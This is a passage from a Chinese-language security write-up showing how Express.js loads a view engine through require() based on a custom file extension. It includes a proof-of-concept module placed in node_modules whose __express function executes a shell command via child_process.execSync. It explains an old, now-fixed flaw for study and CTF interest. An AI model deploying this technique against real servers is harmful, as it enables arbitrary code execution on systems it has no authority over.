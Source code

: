 当我们键入一个自定义后缀 123.ttt 时候，会像前文提到的这样处理 ttt

```plain
var mod = this.ext.slice(1)
debug('require "%s"', mod)

// default engine export
var fn = require(mod).__express
```

如果我们有一个文件上传位点可控，能把文件夹传到 node\_modules 下，其实就可以进行\_\_express 函数的使用了

首先我在 node\_modules 下建立一个 ttt 文件夹，把文件夹里面添加一个 index.js 内容如下

```plain
exports.__express = function() {
    console.log(require('child_process').execSync("id").toString());
}
```

然后键入任意文件名，后缀为 ttt 即可调用

当我们访问 127.0.0.1/?filename=1.ttt 时候进行 debug 会发现

[![](assets/1706957979-4932750628ae7b2c17e4d0ecec47a132.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240201163919-64586540-c0dd-1.png)

他的 engines 内容是我们键入的代码

[![](assets/1706957979-b1543c8a335d8c6f8e4b2393b5f6e0ff.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240201163925-67f18862-c0dd-1.png)

而对照虽然 default 是 ejs，但我们还是在 engine 里进行替换了我们要执行的函数

### 0x04 总结

虽然在较高版本，这个缺陷已经被修复了，而且修复方式有很多种，最好的就是检测后缀，但这个思路是比较有趣的，而且很有可能会被出在一些 ctf 比赛上
